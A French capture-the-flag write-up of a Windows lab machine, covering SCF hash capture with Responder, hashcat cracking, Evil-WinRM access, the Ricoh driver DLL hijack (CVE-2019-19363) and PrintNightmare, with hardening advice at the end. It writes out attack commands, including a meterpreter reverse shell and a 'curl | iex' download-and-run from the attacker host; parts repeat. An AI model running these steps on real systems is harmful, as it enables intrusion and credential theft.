

### 1. Scanning & Énumération

La phase de reconnaissance commence par un scan **Nmap** exhaustif pour identifier la surface d'attaque. La cible est une machine Windows.

```bash
# Scan rapide de tous les ports TCP
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.11.106

# Scan détaillé des services identifiés
nmap -p 80,135,445,5985 -sCV -oA scans/nmap-tcpscripts 10.10.11.106
```

**Résultats clés :**
*   **Port 80 (HTTP) :** Microsoft IIS 10.0. Le header `WWW-Authenticate` révèle un **Basic Realm** nommé "MFP Firmware Update Center".
*   **Port 445 (SMB) :** Authentification requise, pas d'accès **Guest** ou **Null Session** fructueux.
*   **Port 5985 (WinRM) :** Ouvert, suggérant un vecteur de shell distant si des credentials sont obtenus.

### 2. Énumération Web & Authentification

En accédant au port 80, une mire d'authentification **Basic Auth** bloque l'accès. L'énumération via **Nmap** a suggéré le nom d'utilisateur `admin`. Une tentative avec les credentials par défaut `admin:admin` permet d'accéder à l'interface.

Le site est une application **PHP** (X-Powered-By: PHP/7.3.25) dédiée à la mise à jour de firmwares d'imprimantes. La page `fw_up.php` présente un formulaire d'upload de fichiers.

> **Schéma Mental : Exploitation du vecteur d'Upload**
> L'application ne semble pas exécuter le code uploadé (pas de **Webshell** direct évident car les fichiers partent sur un share interne). Cependant, si un utilisateur ou un processus système navigue dans le dossier de destination via l'**Explorer Windows**, nous pouvons abuser du mécanisme de résolution d'icônes pour forcer une authentification **SMB** vers notre machine d'attaque.

### 3. Capture de Hash via SCF (Shell Command File)

Puisque les fichiers uploadés sont placés sur un **File Share**, j'utilise un fichier **.scf**. Ce format est traité par l'**Explorer** pour afficher des icônes. En spécifiant un chemin **UNC** vers mon IP, je force la machine cible à tenter une authentification **Net-NTLMv2**.

**Création du payload (0xdf.scf) :**
```ini
[Shell]    
Command=2    
IconFile=\\10.10.14.6\evil.exe,3   
```

**Préparation de l'écouteur :**
J'utilise **Responder** pour intercepter la requête d'authentification entrante.

```bash
sudo responder -I tun0
```

Après avoir uploadé le fichier `0xdf.scf` via le formulaire `fw_up.php`, le système tente d'accéder à la ressource distante pour récupérer l'icône, me fournissant le hash de l'utilisateur **tony**.

### 4. Cracking & Foothold (WinRM)

Le hash récupéré est de type **Net-NTLMv2**. J'utilise **Hashcat** avec la wordlist `rockyou.txt` pour retrouver le mot de passe en clair.

```bash
# Mode 5600 = Net-NTLMv2
hashcat -m 5600 tony_hash.txt /usr/share/wordlists/rockyou.txt
```

**Résultat :** `tony:liltony`

Je vérifie la validité des credentials pour le service **WinRM** avec **CrackMapExec** :

```bash
crackmapexec winrm 10.10.11.106 -u tony -p liltony
```

Le succès de l'authentification (`Pwn3d!`) me permet d'obtenir un shell initial stable via **Evil-WinRM**.

```bash
evil-winrm -i 10.10.11.106 -u tony -p liltony
```

Une fois connecté, je peux récupérer le flag `user.txt` dans `C:\Users\tony\Desktop`.

---

### 1. Foothold : Accès initial via WinRM

Après avoir craqué le hash **Net-NTLMv2** de l'utilisateur **tony** (`liltony`), j'utilise **Evil-WinRM** pour établir une session persistante sur la machine. Ce service, écoutant sur le port **5985**, permet une gestion à distance via le protocole **WS-Management**.

```powershell
# Connexion initiale
evil-winrm -i 10.10.11.106 -u tony -p liltony

# Récupération du flag utilisateur
type C:\Users\tony\Desktop\user.txt
```

### 2. Énumération Post-Exploitation

Pour identifier des vecteurs d'**Escalade de Privilèges**, j'utilise **WinPEASx64.exe**. L'analyse se concentre sur les fichiers de configuration, les services mal configurés et l'historique des commandes.

```powershell
# Upload de l'outil d'énumération
upload /path/to/winPEASx64.exe C:\programdata\winPEASx64.exe

# Exécution et filtrage de l'historique PowerShell
cat $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

L'historique révèle une commande critique :
`Add-Printer -PrinterName "RICOH_PCL6" -DriverName 'RICOH PCL6 UniversalDriver V4.23' -PortName 'lpt1:'`

Cette information, corrélée au nom de la machine (**Driver**), oriente mes recherches vers des vulnérabilités liées aux pilotes d'impression.

> **Schéma Mental : Analyse de la Surface d'Attaque Interne**
> 1. **Contextualisation** : Le nom de la box et l'historique pointent vers le sous-système d'impression (**Spooler**).
> 2. **Vérification des Permissions** : Analyse des répertoires de drivers pour détecter des **Weak Folder Permissions**.
> 3. **Identification** : Découverte du **CVE-2019-19363** lié au driver Ricoh.

---

### 3. Escalade de Privilèges : Exploitation du Driver Ricoh (CVE-2019-19363)

Le driver **RICOH PCL6** présente une vulnérabilité de type **DLL Hijacking**. Lors de son installation, il crée un répertoire dans `C:\programdata\RICOH_DRV\` où tous les utilisateurs (**Everyone**) possèdent les droits de contrôle total (**F**).

```powershell
# Vérification des permissions sur les DLL du driver
icacls C:\programdata\RICOH_DRV\RICOH PCL6 UniversalDriver V4.23\_common\dlz\*.dll
```

#### Phase d'exploitation avec Metasploit
Le module `exploit/windows/local/ricoh_driver_privesc` automatise le remplacement d'une DLL légitime par une charge malveillante exécutée par **NT AUTHORITY\SYSTEM**.

**Note technique :** L'exploit nécessite souvent une **Session Migration**. Si le processus initial est en **Session 0** (non-interactif), il faut migrer vers un processus en **Session 1** (comme `explorer.exe`) pour interagir correctement avec le spooler d'impression.

```bash
# Préparation du reverse shell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.6 LPORT=4444 -f exe -o rev.exe

# Dans Meterpreter (après exécution de rev.exe)
pgrep explorer
migrate <PID>
use exploit/windows/local/ricoh_driver_privesc
set SESSION <ID>
run
```

---

### 4. Vecteur Alternatif : PrintNightmare (CVE-2021-1675)

La machine est également vulnérable à **PrintNightmare**, une faille critique dans l'**interface RpcAddPrinterDriver** permettant l'exécution de code à distance ou l'escalade de privilèges locale.

> **Schéma Mental : Logique PrintNightmare**
> 1. **Principe** : Abuser de la fonction `AddPrinterDriverEx` pour charger une DLL malveillante via un chemin UNC ou local.
> 2. **Bypass** : Contourner les restrictions de signature de drivers pour forcer le service **Spooler** (tournant en SYSTEM) à charger notre code.

#### Exécution via PowerShell (Bypass Execution Policy)
Pour contourner la **Execution Policy** restreinte, je charge le script directement en mémoire via un **Download String**.

```powershell
# Chargement du script en mémoire (IEX)
curl 10.10.14.6/Invoke-Nightmare.ps1 -UseBasicParsing | iex

# Exécution pour créer un nouvel administrateur local
Invoke-Nightmare -NewUser "redteam" -NewPassword "Password123!"

# Vérification des privilèges
net user redteam
```

Une fois l'utilisateur créé et ajouté au groupe **Administrators**, une nouvelle session **WinRM** permet de récupérer le flag final.

```bash
evil-winrm -i 10.10.11.106 -u redteam -p 'Password123!'
type C:\Users\Administrator\Desktop\root.txt
```

---

### Énumération Post-Exploitation

Une fois mon accès initial établi en tant que **tony**, je commence par une phase d'énumération locale pour identifier des vecteurs d'élévation de privilèges. L'utilisation de **WinPEAS** révèle un élément critique dans l'historique **PowerShell** de l'utilisateur :

```powershell
cat C:\Users\tony\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
Add-Printer -PrinterName "RICOH_PCL6" -DriverName 'RICOH PCL6 UniversalDriver V4.23' -PortName 'lpt1:'
```

Le nom de la machine ("Driver") et cet historique pointent directement vers une vulnérabilité liée aux **Print Drivers**. En vérifiant les permissions sur le répertoire du driver Ricoh, je confirme une configuration permissive :

```powershell
icacls "C:\programdata\RICOH_DRV\RICOH PCL6 UniversalDriver V4.23\_common\dlz\*.dll"
# Résultat : Everyone:(F) -> Contrôle total pour tous les utilisateurs.
```

---

### Vecteur 1 : Exploitation du Driver Ricoh (CVE-2019-19363)

La vulnérabilité **CVE-2019-19363** réside dans le fait que le driver installe des fichiers **DLL** dans un répertoire où les utilisateurs standards disposent de droits d'écriture. Puisque ces **DLLs** sont chargées par des processus tournant avec les privilèges **SYSTEM**, il suffit d'en écraser une pour obtenir une exécution de code privilégiée.

> **Schéma Mental :**
> 1. **Identification** d'un driver tiers (Ricoh) avec des permissions **Weak Folder Permissions**.
> 2. **Hijacking** : Remplacement d'une **DLL** légitime par un **Payload** malveillant.
> 3. **Trigger** : Le service de spooler d'impression charge la **DLL** modifiée.
> 4. **Exécution** : Le code s'exécute dans le contexte de sécurité **NT AUTHORITY\SYSTEM**.

Pour exploiter cela via **Metasploit**, je génère d'abord un **Meterpreter** x64 :

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.6 LPORT=4444 -f exe -o rev.exe
```

**Note cruciale sur les Sessions Windows :**
L'exploit échoue initialement car mon processus `rev.exe` tourne en **Session 0** (session non-interactive des services). Pour que l'exploit Ricoh fonctionne, je dois **Migrate** vers un processus en **Session 1** (session utilisateur interactive), comme `explorer.exe`.

```msf
meterpreter > ps
meterpreter > migrate -N explorer.exe
msf6 > use exploit/windows/local/ricoh_driver_privesc
msf6 > set SESSION <ID>
msf6 > run
# Résultat : Server username: NT AUTHORITY\SYSTEM
```

---

### Vecteur 2 : PrintNightmare (CVE-2021-1675)

La machine est également vulnérable à **PrintNightmare**, une faille critique dans le **Print Spooler** permettant à un utilisateur authentifié d'installer un driver d'imprimante malveillant.

> **Schéma Mental :**
> 1. **Appel RPC** : Utilisation de `AddPrinterDriverEx` pour enregistrer un nouveau driver.
> 2. **Bypass** : Contournement des vérifications de sécurité pour charger une **DLL** arbitraire depuis un chemin local ou distant.
> 3. **Privilege Escalation** : Le **Spooler** (SYSTEM) exécute le point d'entrée de la **DLL**.

Pour contourner l'**Execution Policy** de PowerShell, j'utilise un **IEX (Invoke-Expression)** pour charger le script en mémoire :

```powershell
# Sur la machine cible via WinRM
curl 10.10.14.6/Invoke-Nightmare.ps1 -UseBasicParsing | iex
Invoke-Nightmare -NewUser "0xdf" -NewPassword "0xdf0xdf"
```

Le script crée un nouvel utilisateur et l'ajoute au groupe local **Administrators**. Je peux ensuite me reconnecter via **WinRM** avec ces nouveaux identifiants pour une domination totale.

---

### Analyse Beyond Root

L'analyse post-exploitation montre que la compromission de **Driver** repose sur deux piliers majeurs de l'insécurité Windows :

1.  **Gestion des Drivers Tiers** : L'installation de logiciels tiers (ici des drivers d'impression) introduit souvent des **Filesystem Weaknesses**. Le fait que le répertoire `C:\ProgramData` contienne des binaires exécutables avec des permissions **Full Control** pour le groupe `Everyone` est une erreur de configuration classique qui transforme une vulnérabilité logicielle en un vecteur d'attaque trivial.
2.  **Surface d'Attaque du Print Spooler** : Cette machine illustre pourquoi le service **Print Spooler** est systématiquement désactivé sur les serveurs durcis. Entre les vulnérabilités de type **DLL Hijacking** (Ricoh) et les failles de conception protocolaire (**PrintNightmare**), ce service représente un risque résiduel trop élevé pour les environnements de production.

**Recommandations :**
*   Appliquer le principe du **Least Privilege** sur les répertoires de drivers.
*   Désactiver le service **Spooler** sur tous les systèmes où l'impression n'est pas strictement nécessaire.
*   Surveiller les modifications de fichiers dans `System32\spool\drivers`.